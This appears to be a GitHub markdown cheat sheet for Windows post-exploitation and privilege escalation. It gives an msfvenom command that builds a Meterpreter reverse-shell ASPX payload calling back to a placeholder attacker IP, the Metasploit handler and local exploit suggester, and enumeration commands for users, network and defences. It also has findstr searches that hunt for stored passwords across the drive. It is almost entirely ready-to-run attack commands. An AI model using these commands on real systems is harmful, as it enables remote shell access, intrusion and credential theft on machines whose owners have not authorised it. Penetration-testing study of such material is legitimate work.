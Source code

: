 # Metasploit Windows Reverse Shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4567 -f aspx > letmein.aspx 

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp
```
# Metasploit Windows suggester
```
background

use post/multi/recon/local_exploit_suggester

run SESSION=1
```


# Windows System Enumeration 
```
systeminfo

systeminfo | findstr /b /c:"OS Name" /c:"OS Version" /c:"System Type"

wmic qfe

wmic qfe Caption,Description,HotFixID,InstalledOn

wmic logicaldisk

wmic logicaldisk get caption,description,providername

wmic logicaldisk get caption
```

# Windows User Enumeration 
```
whoami

whoami /priv

whoami /groups

net user

net user jack

net localgroup

net localgroup administrators
```

# Windows Network Enumeration 
```
ipconfig

ipconfig /all

#Check Incoming / Outgoing Network Traffic
arp -a

#Check route table
route print

#Check open ports
netstat -ano
```

# Windows Password Hunting
```
#find 'password' in current directory with extension of txt,ini and config
findstr /si password *.txt *.ini *.config

#find 'password' in whole C: directory
dir /s C:\* | findstr /i "password"
```

# AV Enumeration
```
#Check Window Defender is up or down
sc query windefend

#Check running services
sc queryx type= service

#Check FireWall Status
netsh advfirewall firewall dump
netsh firewall show state 

#Check FireWall configuration
netsh firewall show config
```

# References
```
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation

```
